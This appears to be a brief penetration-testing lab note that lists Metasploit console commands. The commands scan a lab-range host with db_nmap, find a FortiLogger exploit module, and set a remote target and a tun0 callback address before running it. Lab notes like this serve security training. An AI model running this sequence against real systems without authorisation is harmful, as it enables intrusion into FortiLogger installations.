 [[nmap]]
```shell
sudo msfdb

db_nmap -A -T5 10.129.62.196
search FortiLogger

use 0

set rhosts <ip>
set lhost tun0
run
```

